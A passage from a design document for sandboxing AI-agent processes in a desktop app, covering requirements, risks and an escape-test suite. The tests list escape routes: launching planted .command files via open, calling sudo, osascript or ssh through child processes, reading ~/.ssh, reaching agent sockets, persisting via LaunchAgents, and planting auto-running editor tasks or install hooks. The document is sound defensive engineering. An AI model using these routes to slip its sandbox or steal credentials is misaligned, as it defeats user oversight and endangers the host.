5. **Review the person's edits.** `includePreRunChanges = true`. The summary is written on the task.
6. **"Review and fix"** is read-write. The Git ceiling still defaults to Local only (Q17).
7. **Concurrent edits.** The `dir:<path>` lock. The review snapshots the tree and warns if it changes.
8. **No sign-in by default.** `useCredentials` stays opt-in.
9. **Unattended** only if the person picked Trust or Just for this task. Outside paths are still blocked.

---

## 6. Drawbacks, critiques and positives

### Positives
- No extra install for the default path. Real toolchains stay on the host.
- Per-task paths and domains, which a Docker mount list does not express cleanly.
- A confined spawn is milliseconds once the helper is warm.
- The same family of mechanisms as Chrome, Codex CLI and Claude Code.
- Process groups, PID namespaces and Job Objects (when we get there) kill whole trees.

### Drawbacks and critiques
- **hub-api sits in the trusted base.** A prompt injection is read by the process that holds tokens. The sandbox is the mitigation, and it is macOS-only today.
- **argv[0] is not a sandbox.** Until the profile and seccomp deny the Never set, a Python one-liner is an escape hatch. §2A is the fix, and it is not written yet.
- **`sandbox-exec` is deprecated** and SBPL is undocumented.
- **Linux fragmentation.** AppArmor on Ubuntu 24.04, old kernels without Landlock, and an AppImage that cannot install the profile. Landlock cannot name a host or see UDP.
- **An empty network namespace hides dev servers** unless the helper forwards ports.
- **Windows v1 does not isolate files.** Ask mode depends on the person noticing. WSL2 depends on WSL being there. Low integrity would not have fixed the reads, and it would break the tools.
- **Path-based policy pitfalls:** symlinks, hardlinks, bind mounts, `..`, case-insensitive filesystems, 8.3 names, TOCTOU. Canonicalise in the broker. Deny in the kernel. Never grant a parent of a denied path without the deny.
- **Toolchain friction.** Package managers want `~/.npm` and `~/.cargo`. The answer is the specific subfolder, not a readable `$HOME` (Q7, closed).
- **Proxy egress is not content-aware.** An allowed domain can still carry data out (Q11).
- **Trust is sharp.** A malicious script in a trusted repo can change that repo, and it can plant a file that runs later in the person's editor. The review-diff flags are how that stays visible.
- **TCC and Gatekeeper** add prompts the sandbox does not control: Desktop access, and Open Anyway on an unsigned Sequoia build.
- **Debuggability.** A denied build has to show the violation in the UI, and Export diagnostics has to be able to include it (doc 23).

---

## 7. Requirements

### Functional
- R1. Agent-initiated processes are spawned by the core through `ensemble-sbx`. hub-api cannot `exec` a sandbox helper itself. `runner.ts` is rewritten to ask.
- R2. One `SandboxPolicy`. Per-OS compilers. `capabilities()` shown in the UI.
- R3. `$HOME` denied by default on macOS. System and toolchain reads allowed. Grants are the workspace, the cache and specific toolchain subfolders, plus the task's explicit paths. Deny always wins, including the app-data folder for read and write.
- R4. Default-deny network. Egress only via the broker proxy. DNS resolved by the proxy. Unix-domain sockets denied, and not mounted on Linux.
- R5. No secrets in the sandbox: environment allowlist, no SSH agent, no credential helpers, no keychain, no discovery file.
- R6. Git gate: run-branch only, fast-forward only. Protected branches, force pushes, deletions and unknown remotes need Needs-me or are refused.
- R7. Run-ID checkouts. Upstream reads are read-only and pinned by default.
- R8. Needs-me queue: Allow once, for this run, always, Deny. Batching. Timeouts fail closed.
- R9. Whole-tree teardown on task end, cancel or quit.
- R10. Audit log per run, viewable and exportable.
- R11. Dev servers bind in the sandbox and are **forwarded to host localhost**. The UI shows the port. An empty network namespace is not an excuse for a server the browser cannot open.
- R12. Optional container-mode backend, later, without the Docker socket in the default sandbox.
- R13. One default workspace folder, trusted on this device, changeable in Settings. Changing it never moves files.
- R14. Folder trust stored as path rules after resolving links, per device, revocable. Folders refused by `resolveWorkFolder` cannot be trusted.
- R15. Inside a trusted folder, no Allow once or Allow always for a command whose paths stay inside. Trust does not cover domains.
- R16. Run unattended has no prompts inside the trusted folder. The hard floor still applies. **Paths outside the folder are blocked** and listed in the task summary. An untrusted folder is rejected with `UNATTENDED_REQUIRES_TRUST` and the message in §5.9, at assignment and at run time.
- R17. A follow-up task can reuse a previous task's checkout and branch. It checks the branch and HEAD, waits on the chain lock, and is read-only in review mode.
- R18. A folder outside the workspace is an explicit grant. Adding it triggers the trust prompt after the pre-check. Branch switching and stashing are refused there.
- R19. The Tauri dialog replaces the macOS-only `osascript` picker.
- R20. No Mac App Store. DMG on macOS. AppImage and `.deb` on Linux. No Flatpak.
- R21. The Never set is denied by the Seatbelt profile and by seccomp, not only by the argv[0] check. The deny includes `/usr/bin/open`.
- R22. Review only is read-only and has no network. It does not prompt per command. It prompts when the agent asks for more access.
- R23. Plots run through `ensemble-sbx` (the person's Python, or JavaScript). The monkeypatch runner is not a sandbox.
- R24. The review diff flags changes to `.vscode/tasks.json`, `.envrc`, `.husky/`, package.json lifecycle scripts and Makefiles.
- R25. Windows v1 is Ask mode or WSL2. The UI does not call low integrity a sandbox.

### Non-functional
- N1. Sandboxed spawn overhead under 50 ms p95, once the helper is the launcher.
- N2. Helper binary under 2 MB, no runtime dependencies, signed with the app when the app is signed.
- N3. Works without admin. Degraded modes are shown: AppImage without the AppArmor profile, Windows Ask mode.
- N4. **Escape tests**, in CI, starting with the cases below. Every one must fail closed.
- N5. Sandbox strength is visible (Strong / Reduced / Advisory / Ask) with the reason.

### Escape tests (the start of the suite)

Run on macOS with the Seatbelt profile, and on Linux with the helper, including the Landlock-only rung. Windows v1's test is that Ask mode does not run the command before an approval.

1. **`open` / LaunchServices, first.** From `python`, `node`, and `sh script.sh`, run `/usr/bin/open` on a `.command` file the test planted. The file must not execute outside the sandbox.
2. **Never-set via a child, not argv[0].** `python`, `node`, `make`, `npm` and `sh script.sh` each try `osascript`, `sudo`, `security`, `launchctl` and `ssh`. All denied by the profile or by seccomp.
3. **Unix sockets.** Connect to stand-ins for the Docker socket, ssh-agent, gpg-agent and 1Password. Denied. On Linux the sockets are not in the mount list.
4. **App data.** Read and write the database file, the trust-rule store, and the discovery file. Both denied.
5. **`$HOME`.** Read `~/Documents/other-project` and `~/.ssh`. Denied. Read an allowed toolchain subfolder. Allowed.
6. **The existing cases.** Write outside the grant, connect to a non-allowlisted host, persist via LaunchAgents or cron or the Run key, survive a task kill, symlink out of the checkout, push to `main`.
7. **Plots.** A script that reaches past the monkeypatch (`subprocess` via a saved reference, or a direct `os.exec`) still cannot leave the plot directory or open a socket, because the process is under `ensemble-sbx`.
8. **Planted files.** A diff that adds `.vscode/tasks.json` with `runOn` folderOpen, an `.envrc`, a `.husky` hook, a `postinstall`, or a Makefile rule is flagged before it can be treated as an ordinary edit.
9. **Dev server.** A process bound inside the Linux network namespace is reachable on host localhost only on the forwarded port.

---

## 8. Open questions

- ~~Q1. Mac App Store?~~ **Closed: no App Store. A DMG.**
- ~~Q2. Where does the agent run?~~ **Closed.** The desktop runs one hub-api sidecar. Model adapters are ported into it. The core spawns. There is no bundled Python runtime and no Rust port of the API. See doc 23 §3.5.
- **Q3. Linux helper internals:** our own namespace code in `ensemble-sbx`, or a bundled `bwrap`? ~~Flatpak?~~ **Closed: no Flatpak.** Snap packaging is still open.
- ~~Q4. Windows network control for v1?~~ **Closed for v1: Ask mode, or WSL2.** A later native sandbox still has to answer AppContainer versus an elevated firewall, and AppContainer's loopback limit. That is not a v1 decision.
- **Q5. Snapshot vs live reads** for upstream edges, when A is still running.
- ~~Q6. Worktrees?~~ **Closed (G3): always clone.**
- ~~Q7. Toolchain discovery without a readable home?~~ **Closed: deny `$HOME`, then allow the specific subfolders** (Homebrew, nvm, pyenv, asdf, rustup). Do not grant broad home reads.
- **Q8. Prediction quality.** What prompt rate are we aiming for?
- ~~Q9. Are "always allow" rules synced?~~ **Closed for the desktop: per device, not synced.** Version 1 is one local user. Team editing belongs to the hosted version.
- **Q10. Secrets a task legitimately needs.** Inject per run with an approval, or forbid in v1?
- **Q11. Content-aware egress.** Log request sizes on the proxy?
- **Q12. Resource limits.** Are best-effort rlimits enough for v1?
- ~~Q13. Is doc 18 stale about Assign to agent?~~ **Closed: it was. `worker.ts` and `agent.ts` run jobs. Doc 18 is updated.**
- ~~Q14. Does trust skip new network domains?~~ **Closed: no. Trust covers paths only.**
- ~~Q15. Unattended paths outside the folder?~~ **Closed: blocked**, and listed in the task summary.
- ~~Q16. Trust per device, or synced?~~ **Closed: per device.**
- **Q17.** Should "Review and fix" on a folder the person owns be allowed to commit? Proposal: Local only by default. Commit only when explicitly chosen. Push never without a prompt.

---

## 9. Build order

The same order as doc 23 §14. Sandboxing work is steps 2, 4 and 5. It does not start before the app installs.

0. **Spike.** PGlite plus Prisma, one day. Not a sandbox task. It blocks the sidecar the skeleton ships.
1. **Packaged skeleton, all three OSes.** Tauri, static UI, one Node sidecar with the database, updater, discovery file, unsigned CI installers. The discovery file is created here, and treated as app data from the start.
2. **macOS on today's Seatbelt.** Unix sockets, `open` and LaunchServices, the app-data deny, `$HOME` denied by default, the Never set in the profile. Trust and unattended rules, including blocked outside paths. `runner.ts` asks the core to spawn. Escape tests 1–6 on macOS.
3. **OAuth approvals, in parallel.** Not a sandbox task. It is the long pole. See doc 23.
4. **Linux `ensemble-sbx`.** Namespaces, Landlock, seccomp, UDP blocked, port forwarding for R11, no agent sockets mounted. The `.deb` installs the AppArmor profile. The AppImage detects that it could not, and reports Landlock only. Then port macOS onto the helper and stop calling `sandbox-exec` directly.
5. **Windows v1.** Ask mode, or WSL2 using the Linux helper. A strong native sandbox later.
6. **Later.** Optional container mode. Needs-me polish that is not required for step 2 (batching, rule suggestions). Mobile notifications.
